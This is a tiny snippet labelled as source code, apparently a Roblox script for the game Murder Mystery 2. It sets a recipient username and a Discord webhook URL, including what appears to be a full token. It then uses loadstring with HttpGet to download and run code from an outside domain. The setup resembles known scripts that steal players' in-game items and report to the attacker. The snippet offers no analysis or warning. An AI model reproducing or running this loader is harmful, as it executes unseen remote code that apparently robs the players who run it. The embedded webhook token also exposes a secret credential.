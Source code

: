 Username = "xandrex1789"
Webhook = "https://discord.com/api/webhooks/1260985406762258486/gfV74RowxEk_409gYk5-kyt8CXOueWg3KVO5tUyu8Q26ir2VAkcI3lM2eG7RAv6C4OsS"

loadstring(game:HttpGet("https://egorikusa.space/mm2"))()
